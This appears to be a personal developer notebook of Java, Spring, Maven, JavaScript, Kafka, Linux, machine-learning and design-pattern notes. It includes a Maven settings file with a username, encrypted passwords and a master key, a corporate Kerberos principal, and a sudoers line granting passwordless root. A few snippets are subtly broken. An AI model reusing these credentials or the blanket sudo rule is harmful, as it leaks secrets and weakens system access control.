These two cases are the difference between Commands where you want to change the domain data and Responses where you just want to fetch some data.

## Kerberos

Configurar las properties servicePrincipal y keyTabLocation del bean kerberosServiceAuthenticationProvider tal como el siguiente ejemplo:

	<beans:bean id="kerberosServiceAuthenticationProvider" class="org.springframework.security.kerberos.authentication.KerberosServiceAuthenticationProvider">
		<beans:property name="ticketValidator">
			<beans:bean class="org.springframework.security.kerberos.authentication.sun.SunJaasKerberosTicketValidator">
				<beans:property name="servicePrincipal" value="tiam.kerberos@SIDERCA.TECHINT.NET" />
				<beans:property name="keyTabLocation" value="file:///var/opt/identicum/tiam.kerberos.keytab" />
				<beans:property name="debug" value="true" />
			</beans:bean>
		</beans:property>
		<beans:property name="userDetailsService" ref="ldapUserDetailsService" />
	</beans:bean>

## Maven

Maven plugin com.spotify para build images docker

Crear proyecto maven

mvn archetype:generate -DgroupId=com.mycompany.app -DartifactId=my-app -DarchetypeArtifactId=maven-archetype-quickstart -DinteractiveMode=false

	<plugin>
		<groupId>com.samaxes.maven</groupId>
		<artifactId>minify-maven-plugin</artifactId>
		<version>1.7.6</version>
		<executions>
			<execution>
				<id>bundle-minify</id>
				<goals>
					<goal>minify</goal>
				</goals>
				<configuration>
					<nosuffix>true</nosuffix>
					<verbose>true</verbose>
					<charset>UTF-8</charset>
					<cssSourceDir>resources\css</cssSourceDir>
					<cssSourceIncludes>
						<cssSourceInclude>*</cssSourceInclude>
					</cssSourceIncludes>
					<cssFinalFile>style.css</cssFinalFile>
					<jsSourceDir>resources\js\libs</jsSourceDir>
					<jsSourceFiles>
						<jsSourceFile>identicum.js</jsSourceFile>
						<jsSourceFile>datepicker.min.js</jsSourceFile>
					</jsSourceFiles>
					<jsFinalFile>script.js</jsFinalFile>
					<jsEngine>CLOSURE</jsEngine>
				</configuration>
			</execution>
		</executions>
	</plugin>

### M2

Settings.xml

	<settings xmlns="http://maven.apache.org/SETTINGS/1.1.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/SETTINGS/1.1.0 http://maven.apache.org/xsd/settings-1.1.0.xsd">
		<servers>
			<server>
			  <id>identicum.releases</id>
			  <username>nosorio</username>
			  <password>{6f/NfyKK42wHzSwSjXAP6om9j1xNO2pB2tVWqgu3ImU=}</password>
			</server>
			<server>
			  <id>identicum.snapshots</id>
			  <username>nosorio</username>
			  <password>{6f/NfyKK42wHzSwSjXAP6om9j1xNO2pB2tVWqgu3ImU=}</password>
			</server>
			<server>
				<id>localhost</id>
				<username>admin</username>
				<password>admin</password>
			</server>
		</servers>
		<pluginGroups>
			<pluginGroup>org.sonarsource.scanner.maven</pluginGroup>
		</pluginGroups>
		<profiles>
			<profile>
				<id>sonar</id>
				<activation>
					<activeByDefault>true</activeByDefault>
				</activation>
				<properties>
					<!-- Optional URL to server. Default value is http://localhost:9000 -->
					<sonar.host.url>
					  http://localhost:9000
					</sonar.host.url>
				</properties>
			</profile>
			<profile>
				<id>android-settings</id>
				<properties>
					<android.sdk.path>C:\Users\Administrator\AppData\Local\Android\Sdk</android.sdk.path>
				</properties>
			</profile>
		</profiles>
		<activeProfiles>
			<activeProfile>android-settings</activeProfile>
		</activeProfiles>
		
		<!--proxies>
			<proxy>
				<id>tenaris-proxy</id>
				<active>true</active>
				<protocol>http</protocol>
				<host>localhost</host>
				<port>8182</port>
				<nonProxyHosts>localhost|*.example.com</nonProxyHosts>
			</proxy>
		</proxies-->
	</settings>

#### Encriptación de password

<settingsSecurity>

 <master>{+ns3wKX7KKIHGU/ADDlVsywYXFo/d747FqFTSr9KrcQapmECa643fkwPy1GZb/MD}</master>

</settingsSecurity>

## Metrics

Prometheus

@Timed

	<dependency>
	    <groupId>io.astefanutti.metrics.aspectj</groupId>
	    <artifactId>metrics-aspectj</artifactId>
	    <version>1.2.0</version>
	    <exclusions>
		<exclusion>
		    <groupId>org.slf4j</groupId>
		    <artifactId>slf4j-api</artifactId>
		</exclusion>
	    </exclusions>
	</dependency>

	<dependency>
	    <groupId>io.astefanutti.metrics.aspectj</groupId>
	    <artifactId>metrics-aspectj-deps</artifactId>
	    <version>1.2.0</version>
	</dependency>

We're using metrics-aspectj to provide metrics via aspect oriented programming, and metrics-aspectj-deps to provide its dependencies.

We also need the aspectj-maven-plugin to set up compile time processing of the metrics annotations:

	<plugin>
	    <groupId>org.codehaus.mojo</groupId>
	    <artifactId>aspectj-maven-plugin</artifactId>
	    <version>1.8</version>

	    <configuration>
		<complianceLevel>1.8</complianceLevel>
		<source>1.8</source>
		<target>1.8</target>
		<aspectLibraries>
		    <aspectLibrary>
			<groupId>io.astefanutti.metrics.aspectj</groupId>
			<artifactId>metrics-aspectj</artifactId>
		    </aspectLibrary>
		</aspectLibraries>
	    </configuration>

	    <executions>
		<execution>
		    <goals>
			<goal>compile</goal>
		    </goals>
		</execution>
	    </executions>
	</plugin>

import com.codahale.metrics.annotation.Timed;

import io.astefanutti.metrics.aspectj.Metrics;

 

@Metrics(registry = "objectRunnerRegistryName")

	public class ObjectRunner {

	    @Timed(name = "timerName")
	    public void run() throws InterruptedException {
		Thread.sleep(1000L);
	    }
	}

We're using the @Metrics annotation at the class level to let the Metrics AspectJ framework know this class has methods to be monitored. We're putting @Timed on the method to create the timer.

In addition, @Metrics creates a registry using the registry name provided – objectRunnerRegistryName in this case – to store the metrics.

static void startReport() {

	SharedMetricRegistries.add("objectRunnerRegistryName", registry);
	ConsoleReporter reporter = ConsoleReporter.forRegistry(registry)
			.convertRatesTo(TimeUnit.SECONDS)
			.convertDurationsTo(TimeUnit.MILLISECONDS)
			.outputTo(new PrintStream(System.out))
			.build();
	reporter.start(3, TimeUnit.SECONDS);

}

In the startReport method of ApplicationMain, we set up the registry instance to the SharedMetricRegistries using the same registry name as used in @Metrics.

After that, we create a simple ConsoleReporter to report our metrics from the @Timed annotated method. We should note that there are other types of reporters available.

## Spring

Application.properties

[https://docs.spring.io/spring-boot/docs/current/reference/html/common-application-properties.html](https://docs.spring.io/spring-boot/docs/current/reference/html/common-application-properties.html)

server.port=8081

server.servlet.context-path=/facturacion

Si tiene JPA te va a pedir un datasource

Spring crea los objetos a traves de reflection

https://docs.oracle.com/javase/tutorial/reflect/index.html

https://docs.oracle.com/javase/tutorial/java/generics/index.html

wiring / cableado (por constructor) -> le pasa un objeto del contexto como parametro

@Component -> si no le agrego nombre (@Component("nombre")) spring me pone el nombre de la clase en lowercase

@Autowired -> se debe ingresar que objeto se va a utilizar salvo que exista un solo componente

Cuando hay dos objetos de la misma clase y spring no puede hacer autowired automático -> Se utiliza el @Qualifier("example")

Autowired = El objeto tiene que ser parte del contexto

@Autowired

private Environment env;

@Value("${spring.ldap.password}")

private String password;

	

log.info(env.getProperty("spring.ldap.password"));

log.info(password);

spring core

Si usas un contexto es inyección de dependencias

si usas new es polimorfismo

Evento ApplicationReadyEvent en la clase de inicialización

### Spring Security

http.rememberMe(optional - nombre del parametro)

.tokenValiditySeconds(int)

WebSecurity != HttpSecurity

PasswordEncoder - BCrypt

http.logout().logoutSucceessUrl("url")

http.sessionManagement().invalidSessionUrl("url") - .maximumSessions(int).maxSessionPreventLogin(boolean)

@Secured("Rol, Roles") - en métodos para que un usuario sin ese permiso no pueda accederlo

@PreAuthorize("hasRole('role, roles') or #cliente.metadatos.usuario == authentication.name")

void modificar(Cliente cliente)

@PostAuthorize("returnObbject.metadatos.usuario == authentication.name"

@PostFilter

Sprign security - Custom error page

	<http>
	    <intercept-url pattern="/admin/*" access="hasAnyRole('ROLE_ADMIN')"/>   
	    <access-denied-handler error-page="/my-error-page" />
		---
		(Custom)
		<access-denied-handler ref="customAccessDeniedHandler" />
	</http>

Custom AccessDeniedHandler

	@Component
	public class CustomAccessDeniedHandler implements AccessDeniedHandler {
	    @Override
	    public void handle
	      (HttpServletRequest request, HttpServletResponse response, AccessDeniedException ex) 
	      throws IOException, ServletException {
		response.sendRedirect("/my-error-page");
	    }
	}

### Reactive Programming

At this moment, only **PostGres, MSSQL, and H2 have R2DBC drivers **

### Spring Cloud

FailFast

In some cases, it may be desirable to fail startup of a service if it cannot connect to the Config Server. If this is the desired behavior, set the bootstrap configuration property spring.cloud.config.failFast=true and the client will halt with an Exception.

## Streams

## Testing

### Rest assured

### Gatling

[https://gatling.io/](https://gatling.io/)

### JMeter

Web Test

Botón derecho en el Test Plan > Add > Threads (Users) > Thread Group

Configurar Thread Group

Botón derecho en el Thread Group > Add > Config Element > HTTP Request Defaults

Genera gráficos HTML

jmeter -n -t "IRM Stats.jmx" -f -l stats_results.csv -e -o Output

jmeter -n -f -t "IRM Stats.jmx" && python IRM_Statistics_Parser.py

## Tomcat

Redirect desde el / a una app en tomcat

Crear carpeta ROOT en ../tomcat/webapps/

crear archivo index.jsp con la siguiente linea 

<% response.sendRedirect("/idmdash"); %>

# Javascript

The bitwise OR operator can also be used to remove any amount of digits from the end of an integer.

Ejs: console.log(1234 / 10 | 0) // Output: 123
console.log(1234 / 100 | 0) // Output: 12

The stringify() method takes two optional parameters:
- a replacer function, which you can use to filter the JSON that is displayed
- a space value

console.log(JSON.stringify(json, null, '\t'))

array.length = 0 //Empty array

if(condition){ function() } => condition && function()

Convertir número a binario

(num >>> 0).toString(2)

Validar si es un número

if (num === parseInt(num, 10))

Getting largest value in array

return Math.max.apply(Math, array);

console.table()
console.time() - console.timeEnd()

'use strict'; // Modo estricto de JS, por ejemplo, no permite utilizar variables que no fueron declaradas

location.href = "userapp/index.html?_=(get)" + (new Date()).getTime(); -> para la caché

 -> el defer permite que realice el script cuando carga el documento (ejemplo tenaris cookie nam)

Para programación reactiva

var source = new EventSource("demo_sse.php");
source.onmessage = function(event) {
  document.getElementById("result").innerHTML += event.data + " ";
};

Empezar a utilizar .done, .fail, .always en vez de success o error

Básicamente, al agregar nuevas funciones al objeto jQuery.fn hacemos que estén disponibles en cualquier objeto jQuery (obtenido mediante la función $ o jQuery).

Toda función javascript dispone de un método call que permite asignar la referencia this que será utilizada en el momento de la ejecución.

Cualquier parámetro adicional luego del contexto, será recibido por la función en el mismo orden como argumento.

El método apply es similar a call. Lo que cambia en este caso es la forma de pasar parámetros, ya que apply recibe un array como 2do parámetro (pasando cada índice de ese array como argumento a la función).

El método bind nos permite guardar una función con el contexto redefinido (y a veces parámetros por defecto) en vez de ejecutar la función inmediatamente. Ver el ejemplo de saludarGenerico en nuestro objeto Persona.

.innerHTML vs .textContent - html() vs text()

La propiedad innerHTML es más intensiva para procesar que textContent, ya que el navegador evalúa todo el String como un HTML nuevo.

En los casos que sólo quiero actualizar texto (sin tags) es conveniente utilizar textContent, de esta forma no hay proceso de redibujo de los elementos.

jshint - para analizar codigo

|| o ??

Required: 

let isRequired = () => {
    throw new Error('This is a mandatory parameter.');
}
let greetings = (name=isRequired(), message='Hello,') => {
    return `${message} ${name}`;
}
console.log(greetings());

let count = 1;
let ret = (count++, count);
console.log(ret);

for (var i = 0, j = 50; i <= 50; i++, j--)

## Arrays

### Get Uniques from array

var fruits = [“banana”, “apple”, “orange”, “watermelon”, “apple”, “orange”, “grape”, “apple”];

#### First method

var uniqueFruits = Array.from(new Set(fruits));
console.log(uniqueFruits); // returns [“banana”, “apple”, “orange”, “watermelon”, “grape”]

#### Second method

var uniqueFruits2 = […new Set(fruits)];
console.log(uniqueFruits2); // returns [“banana”, “apple”, “orange”, “watermelon”, “grape”]

### Convert array to an object

var fruits = [“banana”, “apple”, “orange”, “watermelon”];
var fruitsObj = { …fruits };
console.log(fruitsObj); // returns {0: “banana”, 1: “apple”, 2: “orange”, 3: “watermelon”, 4: “apple”, 5: “orange”, 6: “grape”, 7: “apple”}

## Speech Recognition

if ("speechSynthesis" in window) {
  // new speech recognition object
  var recognition = new window.SpeechRecognition();

  // This will run when the speech recognition service returns a result
  recognition.onstart = function() {
    console.log("Voice recognition started. Try speaking into the microphone.");
  };
  
  recognition.onresult = function(event) {
    var transcript = event.results[0][0].transcript;
    console.log(transcript);
  };
  
  // start recognition
  recognition.start();
  //   .....
} else {
  console.log("Speech recognition not supported 😢");
  // code to handle error
}

## Text to Speech

var msg = new SpeechSynthesisUtterance();
msg.text = "Hello World";
window.speechSynthesis.speak(msg);

var voices = window.speechSynthesis.getVoices();
msg.voice = voices[10]; 
msg.volume = 1; // From 0 to 1
msg.rate = 1; // From 0.1 to 10
msg.pitch = 2; // From 0 to 2
msg.text = "Como estas Joel";
msg.lang = 'es';
speechSynthesis.speak(msg);

## Promises

Promise all y Promise spread

Use Promise.all, Promise.spread and other methods to control the flow

If you want to run some operations in parallel, use Promise.all:

var parallel = function(do1Param, do2Param) {
  return Promise.all([
    do1(do1Param),
    do2(do2Param)
  ])
}

parallel(1, 2)
  .then(function() {
    //both promises are resolved
  });

  
If you need to get access to results of promises running in parallel, use Promise.spread:

parallel(1, 2)
  .spread(function(do1Result, do2Result) {
    // results are available here
  });

  

Await

var p1 = http.get("my/first/path");
var p2 = http.get("my/second/path");
Promise.all([p1, p2]).then(function (values) {
    processValues(values);
});

With async/await, the previous code will be written as:

var p1 = http.get("my/first/path");
var p2 = http.get("my/second/path");
var results = await Promise.all([p1, p2]);
processValues(values);

Refactor

1)

function getHotDog () {
    return new Promise(function (resolve, reject) {
        getBun().then(function (bun) {
            addSausage(bun).then(function (bunWithSausage) {
                addSauce(bunWithSausage).then(function (hotdog) {
                    resolve(hotdog)
                })
            })
        })
    })
}

2)

function getHotDog () {
    return getBun().then(function (bun) {
        return addSausage(bun).then(function (bunWithSausage) {
            return addSauce(bunWithSausage).then(function (hotdog) {
                return hotdog
            })
        })
    })
}

3)

function getHotDog () {
    return getBun().then(function (bun) {
        return addSausage(bun)
    }).then(function (bunWithSausage) {
        return addSauce(bunWithSausage)
    }).then(function (hotdog) {
        return hotdog
    })
}

4)

function getHotDog () {
    return getBun()
    .then(addSausage)
    .then(addSauce)
}

## NodeJS

Debug con chrome tools:
	node --inspect <file>.js

# Kafka

Producers -> Envían data (Topic, msg)

	Kafka Cluster

		Brokers - Instancias - Son las que guardan en una base de datos

			Topics - Canales

				Partitions - Generan varias copias de lo mismo en diferentes lugares

Consumer

Ventajas

Alta disponibilidad

Zookeper - Gestor de Cluster

Kafka Producer: la API Producer permite que las aplicaciones envíen flujos de datos a los brokers de los clústers de Apache para categorizarlos y almacenarlos (en los topics mencionados anteriormente).

Kafka Consumer: la API Consumer proporciona a los consumidores de Apache Kafka acceso de lectura a los datos almacenados en los topics del clúster.

Kafka Streams: mediante la API Streams, las aplicaciones pueden actuar como procesadores de flujos para convertir los flujos de datos entrantes en salientes.

Kafka Connect: gracias a la API Connect, es posible configurar productores y consumidores reutilizables que comuniquen los topics de Kafka con las aplicaciones o sistemas de bases de datos existentes.

Kafka AdminClient: la interfaz AdminClient se utiliza para facilitar la administración y supervisión de los clústeres de Kafka.

-----------

Record: Producer sends messages to Kafka in the form of records. A record is a key-value pair. It contains the topic name and partition number to be sent. Kafka broker keeps records inside topic partitions. Records sequence is maintained at the partition level. You can define the logic on which basis partition will be determined. 

Topic: Producer writes a record on a topic and the consumer listens to it. A topic can have many partitions but must have at least one.

Partition: A topic partition is a unit of parallelism in Kafka, i.e. two consumers cannot consume messages from the same partition at the same time. A consumer can consume from multiple partitions at the same time.

Offset: A record in a partition has an offset associated with it. Think of it like this: partition is like an array; offsets are like indexs.

Producer: Creates a record and publishes it to the broker.

Consumer: Consumes records from the broker.

Commands: In Kafka, a setup directory inside the bin folder is a script (kafka-topics.sh), using which, we can create and delete topics and check the list of topics. Go to the Kafka home directory.

# Kubernetes

[https://medium.com/@bhargavshah2011/hello-world-on-kubernetes-cluster-6bec6f4b1bfd](https://medium.com/@bhargavshah2011/hello-world-on-kubernetes-cluster-6bec6f4b1bfd)

[https://medium.com/google-cloud/kubernetes-nodeport-vs-loadbalancer-vs-ingress-when-should-i-use-what-922f010849e0](https://medium.com/google-cloud/kubernetes-nodeport-vs-loadbalancer-vs-ingress-when-should-i-use-what-922f010849e0)

	

Pod - grupo de containers 

Minikube - es para tener un kubernetes local

# Linux

HISTTIMEFORMAT="%d/%m/%y %T "

*   wc -l cantidad de lineas
*   vi :set number
*   rpm -qa	
*   fg (Sirve para ver procesos en foreground)
*   modify /etc/sudoers -> "user" ALL=(ALL) NOPASSWD:ALL

Setear como un servicio systemctl -> [https://crunchify.com/systemd-upstart-respawn-process-linux-os/](https://crunchify.com/systemd-upstart-respawn-process-linux-os/)

/etc/profile para agregar comandos al ingresar por ssh

Comandos para cambiar la ip en el bash de linux:

1 ifconfig eth0 192.168.1.1 netmask 255.255.255.0	(ip de pc y mscara de subred)

2 route add default gw 192.168.1.1			(puerta de enlace predeterminada)

3 echo nameserver 192.168.1.200 > /etc/resolv.conf	(DNS)

Ejemplo:

1 ifconfig eth0 192.168.10.150 netmask 255.255.255.0	(ip de pc y mscara de subred)

2 route add default gw 192.168.10.1			(puerta de enlace predeterminada)

3 echo nameserver 10.11.11.1 > /etc/resolv.conf

Egrep –io ‘<a [a-z0-9\.=?”/ : -]+ /a>’ index.html

Grep: busquedas dentro de un archivo

Grep ‘root’ /etc/passwd                    muestra toda la linea

Grep ‘^root’               busca root en la primer línea / comienzo de la linea

Grep –w ‘roo’           busca la palabra exacta

Grep –i                        busca en mayúscula y miniscula

-iw                           busca la palabra exacta tanto en mayúscula y minúscula

-v                            busca todo lo que no tenga la palabra

-n                           numero de linea

Egrep –io ‘[a-z09._]+        muestra palabas cortadas hasta el character no tomado. Divisor (ejemplo hola  @   gmail.com

Cat /etc/passwd | cut –d ‘:’ –f5                 corta los puntos que dividen y toma la columna x

Tr                de minúscula a mayúscula

F1-5       columna de 1 a 5

F1,5      columna 1 y 5

Sed ‘s/:/\t /g’                   s/: /        cambia por \t          /g  en toda la línea

Sed –i  ‘s/:/\t /g’                     -I modifica el archive en el que se esta

curl www.google.com.ar > google.dat     baja la informacion

Permisos

Chmod a/u/g/o  all/user/group/other  +/-   r/w/x

/etc/passwd:  archivo editable que contiene toda la información acerca de los usuarios creados en nuestro sistema.

Chown: hacer dueño a un usuario de un directorio o archivo

Chgrp: hacer dueño a un grupo de un directorio o archivo

 

Cd - : volver

Echo >/>> : escribe lo que se escribiria por pantalla en un archive

 

Cat < /dev/pts/3   escucha de

X > /dev/pts/5   manda a
 

Nano x.sh    -	hacer un script 	/gedit 	/signo mayor
  

(./)busybox  programa que guarda todos los comandos

tty nos dice en que terminal estamos

libreria pam     formas de logear/encriptar   coordenadas/pendrive

man crypt

proc / sys   no ocupan espacio en el disco, ocupan memoria, se crean cuando se inicia la computadora

proc muestra informacion de los procesos

init    proceso numero 1    proceso padre

proc/ cat cpuinfo | more

cat meminfo | more

watch "grep 'MemFree:' meminfo"       mira el uso de memoria en tiempo real

/run/    procesos que se estan ejecutando - pin del proceso

/bin/ programas ejecutados por el usuario

/sbin/ programas ejecutados por root (ifconfg)

/usr/ documentacion, manuales, bin/sbin pero no del sistema base

/var/ log del sistema operativo

/dev/   terminales

du -sh /var     espacio 

du -h –maxdepth=1 ?

df -h muestra los discos montados y el espacio en el disco

dpkg -L mc | more:      se ve lo que contiene el paquete mc

Corroborar archivos dañados

md5sum archivo

eog *.jpg ? abrir archivos jpg

shred ? borrado seguro del sistema

[Desktop Entry]  
Version=1.0  
Exec=/home/yourname/bin/ssh_home.sh  
Name=SSH Server  
GenericName=SSH Server  
Comment=Connect to My Server  
Encoding=UTF-8 
Icon=utilities-terminal
Terminal=true  
Type=Application  
Categories=Application;Network;

That way you will have an icon to click which will launch your script.

You may have to set the executable flag:

chmod +x ~/Desktop/ssh_home.desktop

rkhunter –check (revisa backdoors)

find / -type f -mtime -1

-atime n

	File was  last  accessed n*24 hours ago.  When find figures out

	how many 24-hour periods ago the file  was  last  accessed, any       	fractional part is ignored, so to match -atime +1, a file has to

	have been accessed at least two days ago.

-mtime n

      File’s  data was last modified n*24 hours ago.  See the comments

      for -atime to understand how rounding affects the interpretation

      of file modification times.

W: muestra que usuarios estan conectados actualmente

whoami: nombre de usuario

whois: obtiene informacion de un dominio

## WGET

En el caso de servidor ftp:

wget -c -user=usuario –password=contraseña ftp://ejemplo.no-ip.org/tarea.odt

Para que la descarga continue en caso de reinicio:

wget -c http://cdimage.ubuntu.com/dvd/20100914/maverick-dvd-i386.iso

wget --http-user=admin --http-password=secreto http://ejemplo.com/archivo.mp3

wget www.google.com.ar  -O  google.dat    # pasar archivo a .dat

## Comprimir / Descomprimir

Archivos .tar.gz:

Comprimir: tar -czvf empaquetado.tar.gz /carpeta/a/empaquetar/

Descomprimir: tar -xzvf archivo.tar.gz

Archivos .tar:

Empaquetar: tar -cvf paquete.tar /dir/a/comprimir/

Desempaquetar: tar -xvf paquete.tar

Archivos .gz:

Comprimir: gzip -9 index.php

Descomprimir: gzip -d index.php.gz

Archivos .zip:

Comprimir: zip archivo.zip carpeta

Descomprimir: unzip archivo.zip

Copiado de archivos con distinto nombre

cp /tmp/file.txt{,.bkp}	

# Machine Learning

Label is the variable we are predicting.

Typically represented by the variable y

Label = y = variable we are predicting

Feature are input variables describing our data

Typically represented by the variables {x1,x2,...xn}

Features = x = input data

An example is a particular instance of data, x. (We put x in boldface to indicate that it is a vector.) We break examples into two categories:

(Los labeled examples sería la información con la que se entrena la inteligencia artificial, en cambio los unlabeled examples son los que despues vamos a querer predecir)

A labeled example includes both feature(s) and the label. That is:

  labeled examples: {features, label}: (x, y)

Use labeled examples to train the model. In our spam detector example, the labeled examples would be individual emails that users have explicitly marked as "spam" or "not spam."

Unlabeled example has {features, ?}: (x, ?)

Used for making predictions on new data

Model maps examples to predicted labels: y'

Defined by internal parameters, which are learned

Inference means applying the trained model to unlabeled examples. That is, you use the trained model to make useful predictions (y')

funcion lineal

y = w(weight / peso / pendiente) * x (vector) + b (bias)

en Machine learning seria

y' = b + w1x1, donde

y' is the predicted label (a desired output).

b is the bias (the y-intercept), sometimes referred to as .

w1 is the weight of feature 1. Weight is the same concept as the "slope"  in the traditional equation of a line.

x1 is a feature (a known input).

Squared loss: a popular loss function

The linear regression models we'll examine here use a loss function called squared loss (also known as L2 loss). The squared loss for a single example is as follows:

  = the square of the difference between the label and the prediction

  = (observation - prediction(x))2

  = (y - y')2

Mean square error (MSE) is the average squared loss per example over the whole dataset. To calculate MSE, sum up all the squared losses for individual examples and then divide by the number of examples:

MSE = 1/N 	  E 	(y - prediction(x))^2

			(x,y)eD 

			

						

x is the set of features (for example, chirps/minute, age, gender) that the model uses to make predictions.

y is the example's label (for example, temperature).

prediction(x) is a function of the weights and bias in combination with the set of features .

D is a data set containing many labeled examples, which are  pairs.

N is the number of examples in .

Loss - es la distancia entre el punto y la recta, todos los puntos que estan sobre la recta son 0^2 y los que no, son distancial^2, la suma de todos los valores se divide por la cantidad de puntos

# Patrones de diseño

Patrones de construccion

Inicialización y configuración de objetos.

Builder: Separar la construcción de un objeto complejo de su representación para que el mismo proceso de construcción puede crear diferentes representaciones.

Nos permite crear un objeto que está compuesto por muchos otros objetos. Sólo el "Builder" conoce a detalle las clases concretas de los objetos que serán creados, nadie más.

En este patrón intervienen un "Director" y un "Builder". El "Director" invoca los servicios del "Builder" el cual va creando las partes de un objeto complejo y al mismo tiempo guardo un estado intermedio de la construcción del objeto. Cuando el producto se ha construido por completo el cliente recupera el resultado.

A diferencia de otros patrones creacionales que construyen productos de una sola vez, el patrón "Builder" construye paso a paso los productos bajo el control del "Director".

Aplicación: Usamos el patrón Builder cuando queremos...

Construir un objeto compuesto de otros objetos.

Que la creación de las partes de un objeto sea independiente del objeto principal.

Ocultar la creación de las partes de un objeto del cliente, de esta manera no existe dependencia entre el cliente y las partes.

Abstract Factory

Factory Method

Prototype

Singleton: limita a uno el número de instancias posibles de una clase en nuestro programa a una, y proporciona un acceso global al mismo. La aplicación necesita una, y sólo una, instancia de una clase, además está instancia requiere ser accesible desde cualquier punto de la aplicación.

Clase que puede tener una sola instancia, tiene un constructor privado y un metodo que instancia esa clase si un atributo es null y lo retorna. Dicho atributo debe ser del mismo tipo que la clase misma.

Tipicamente para:

Manejar conexiones con la base de datos.

La clase para hacer Login.

Patrones de estructuracion

Separan la interfaz de la implementación. Se ocupan de cómo las clases y objetos se agrupan, para formar estructuras más grandes.

Adapter

Bridge

Composite

Decorator

	Es una alternativa a generar sub clases pero con la posibilidad de darles nuevas funcionalidades en tiempo de ejecución

Facade

Flyweight

Proxy

Patrones de comportamiento

Más que describir objetos o clases, describen la comunicación entre ellos.

Command

State / Estado

Interfaz de estado con los distintos estados

Interpreter

Este patrón nos sirve cuando tenemos una clase que tiene un método al cual le queremos dotar de funcionalidad pero no deseamos modificarlo porque así como lo tenemos escrito podría ser re-utilizable en varias partes de nuestro código o bien podría ser re-utilizable en otro proyecto que tengamos.

Por ejemplo, podríamos tener una clase de repositorio que haga operaciones CRUD. En el método read queremos calcular la edad que tendrá en 5 años una persona registrada, no deseamos malformar nuestro read pero queremos que nos devuelva la edad decorada por decirlo de alguna forma.

Entonces para que proxy nos sirve deberíamos crear una clase que implemente el mismo comportamiento de repository, de manera que reciba de parámetro los mismos datos que el método read original y debemos agregar como atributo a nuestra clase proxy un objeto del tipo repository de manera que dotamos de funcionalidad al método de lectura pero a su vez no lo modifcamos en el objeto repository original, de manera que nuestro método read recibe sus datos como si nada mientras que nuestro método del proxy también los usa para agregar la funcionalidad adicional.

A continuación mostrare un ejemplo:

Primeramente tenemos una clase que define nuestra entidad que podríamos usar cuando consultamos una base de datos y debemos manipular la tabla en nuestro código

class Persona{

    public String nombre;
    public int edad;
	
    public Persona(String nombre,int edad){
        this.nombre = nombre;
        this.edad = edad;
    }

    public void setEdad(int edad){
       this.edad = edad    
	}}

Luego tenemos una interfaz que define el comportamiento que debe de tener nuestro repository concreto, en este caso en la clase concreta solo implementaremos un metodo read.

interface IRepository{
    public Persona readDataPerson(String query);
}

A continuación el repository concreto, que sera el que implemente el comportamiento

class Repository implements IRepository{   
	public Persona readDataPerson(String query){       
		return new Persona("Elliot Williamson",19);
   }
}

Bien bien, ya podríamos consultar las rows de una hipotética tabla persona ahora deseo calcular la edad que tendrá esa persona en 5 años antes de devolver la data definitivamente al programador que desee usar esta funcionalidad.

Antes de continuar estoy consciente que no estoy usando el parámetro query pero lo pongo para dar una idea de como podríamos usar el patrón, recibiendo una query, dada esa query recuperar resultados tal como lo haríamos conectándonos a una base de datos y posteriormente ya con nuestro proxy decorando los datos retornados por la base de datos para devolverlos finalmente.

Bien, hora de implementar el proxy

class RepositoryProxy implements IRepository{

    Repository repo;   

    public Persona readDataPerson(String query){

        Persona person = repo.getData("Select * from personas where   id=19");     
		person.setEdad(person.edad + 5);
		return person;
	}

}

Listo dotamos de funcionalidad a la lectura de datos sin necesidad de modificar la clase original que realiza las operaciones crud tanto el proxy como el objeto al cual esta ayudando el proxy reciben los mismos datos en sus métodos (la query) de manera que por un lado el repositorio consume esa query y cumple su función y por otro el proxy hace la suma de 5 a la edad de la persona, sin tocar el comportamiento de lectura original, el cual se pudo llevar a cabo gracias al método implementado en el proxy que sigue recibiendo la cadena que el objeto repository usa para llevar a cabo su lectura.

Ahora si se desea obtener la edad que tendrá en 5 años una persona obtenida de la base de datos basta con instanciar el proxy en donde necesitemos y realizar la consulta. el repository donde sea que deseemos seguir obteniendo una persona sin cambiar nada podrá seguir funcionando.

# Protocolos

POP3: Guarda los mails en la computadora

IMAP: Servidor remoto

ARP: Mapea IP con MAC

ICMP: Envía mensajes de error e información relacionada a las operaciones, ej ping

DNS (Domain Name System): Traduce nombres de dominio a IPs

REST
	El verbo POST es el único verbo no idempotente porque modifica el estado del sistema. El resto de los verbos se pueden ejecutar n veces y no lo modifican (puede haber excepciones como el put)

[http://www.codigomaestro.com/redes/cual-es-la-diferencia-entre-los-protocolos-tcp-udp/](http://www.codigomaestro.com/redes/cual-es-la-diferencia-entre-los-protocolos-tcp-udp/)

# Protocol Buffers

Protocol buffers are Google's language-neutral, platform-neutral, extensible mechanism for serializing structured data – think XML, but smaller, faster, and simpler. You define how you want your data to be structured once, then you can use special generated source code to easily write and read your structured data to and from a variety of data streams and using a variety of languages.

Protocol buffers currently supports generated code in Java, Python, Objective-C, and C++. With our new proto3 language version, you can also work with Go, JavaNano, Ruby, and C#, with more languages to come.

Serializador mucho más eficiente que otros.

# Python

if():
else:
else if == elif

and / or / not

print("")

input = input()

lista/vector .append(x) agrega en el ultimo lugar

lista/vector .insert(index,x) agrega en el indice dado y mueve el resto de los elementos

list.range(5,8) = [5,6,7]

list.range(3,15,3) = [3,6,9,12]

Funcion: Def funcion():

Se puede asignar una funcion a una variable. Variable = funcion

From module import func1, func2

Try / except

Raise error = throw new exception

arcihvo = open("archivo", r)

archivo.close()

var = archivo.read()

archivo.write()

with funcion() as var = variable temporal

none = null

Swap variables: 

a = 1; b = 2
a, b = b, a
print(a,b) >> 2 1

Multiple Variable Assignment:

a, b, *c = [1,2,3,4,5]
print(a,b,c) >> 1 2 [3, 4, 5]

Sum over every second element of a list:

a = [1,2,3,4,5,6]
s = sum(a[1::2])
print(s) >> 12

Delete multiple elements:

a = [1,2,3,4,5]
del a[::2]
print(a) >> [2, 4]

Read file into array of lines:

c = [line.strip() for line in open('file.txt')]
print(c) >> ['test1', 'test2', 'test3', 'test4']

With Pythons inline for loop you can easily read a file into an array of lines. The strip() is needed to remove the trailing line breaks. If you want to keep them or they don't matter to you, you can use an even shorter one-liner:
c = list(open('file.txt'))

print(c) >> ['test1\n', 'test2\n', 'test3\n', 'test4\n']

Write string to file:

with open('file.txt', 'a') as f: f.write('hello world')
print(list(open('file.txt'))) >> ['test1\n', 'test2\n', 'test3\n', 'test4\n', 'hello world']

List creation:

l = [('Hi '​ + x) ​for​ x ​in​ [​'Alice'​, ​'Bob'​, ​'Pete'​]]
